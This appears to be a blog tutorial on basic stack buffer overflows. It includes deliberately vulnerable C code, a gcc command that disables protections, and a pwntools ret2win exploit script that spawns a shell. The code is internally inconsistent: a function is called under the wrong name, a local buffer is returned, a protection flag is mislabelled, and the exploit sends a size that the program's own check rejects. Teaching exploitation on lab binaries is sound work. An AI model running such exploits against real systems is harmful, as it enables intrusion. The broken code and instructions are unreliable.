 +++
author = "Emily Miller"
title = "How to: Basic buffer overflows without stack protections"
date = "2025-02-10"
description = """This is a simple guide on how to perform basic buffer
overflows, including an example exploit script."""
categories = [ "binary-exploitation" ]
+++

Kind of starting a little basic, but what is a buffer overflow? Effectively,
when the program is expecting a certain amount of data to be written, and more
data than that gets written, *overflowing* the buffer. When done on the stack
(the most basic case), this is often called *stack smashing* (as seen in the amazing stack canary message "**** stack smashing detected ****").

For instance, if our memory looks something like below:

`| Other function memory (variables, etc.) | Buffer | More function memory |
return address |`

What we can do to gain control flow is write through that Buffer and the
function memory and overwrite the return address. Often, this occurs in ret2win
style challenges, where we need to return to some win function.

Lets take the following code as our example:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
    char buffer[64];  // Vulnerable buffer size
    int size;

    printf("Enter the size of your input: ");
    scanf("%d", &size);  // User inputs the size for fgets

    if (size > 0 && size < sizeof(buffer)) {
        printf("Enter your input: ");
        fgets(buffer, size, stdin);
	    print_quotes(buffer);
    }
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

The example above looks a little convoluted, and I've done that because that's
what real buffer overflows look like. 99% of the time, these come from the
programmer writing some piece of code to do some small task (in this case
wrapping some string in quotes), and forgetting to account for issues that may
arise with how things interact with it. The more experienced among you may notice
a second vulnerability lurking in this program, but we'll cover that another
time.

Note if you want to follow at home, you will need to compile with stack
protections disabled, which can be done like `gcc -fno-stack-protector -z
noexecstack -no-pie -o vulnerable_program vulnerable_program.c` (Take a moment
to notice just how many things we're having to disable in order to make this
work --- this is something that rarely happens in modern programs, which is why
more advanced exploitation techniques are usually needed).
`

Here, we can use a very simple exploit to attack it:

```python
from pwn import *

# Hacker defined parameters
process_name = "./vulnerable_program"
offset = 64 # Placeholder, you'll need to find this using GDB
win_address = 0x123456 # You get this from GDB as well

# Calculate our payload
payload = b"A"*offset + p64(win_address) # <-- standard buffer overflow payload

# Exploit
p = process(process_name)
p.sendline(bytes(str(offset+8), "utf-8"))
p.sendline(payload)

# Reap the benefits
p.interactive()
```
Another important thing to keep in mind is those parameters need to be
determined by you, the attacker. There are ways of getting around this,
including automatic static analysis of the binary (some of which can be done in
`pwntools`, albeit with some reliability issues) and fuzzing, but that's a topic
to explore on your own as you gain more exploit development experience.
